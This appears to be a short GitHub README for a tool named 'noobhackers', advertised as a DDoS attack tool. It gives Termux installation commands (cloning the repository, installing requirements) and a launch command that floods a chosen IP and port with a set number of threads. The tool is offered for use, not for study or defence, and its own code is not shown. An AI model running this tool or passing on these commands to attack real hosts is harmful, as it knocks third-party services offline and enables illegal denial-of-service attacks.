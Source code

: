 # noobhackers
The Best ddos attack tool

made by @noobhackers008

instalation in termux

git clone  https://github.com/noobhackers-008/noobhackers

cd noobhackers

ls

pip install -r requirements.txt

ls

python3 noobhackers.py

for Start Attack use this commond

python3 noobhackers.py -s ip -p 80 -t 135
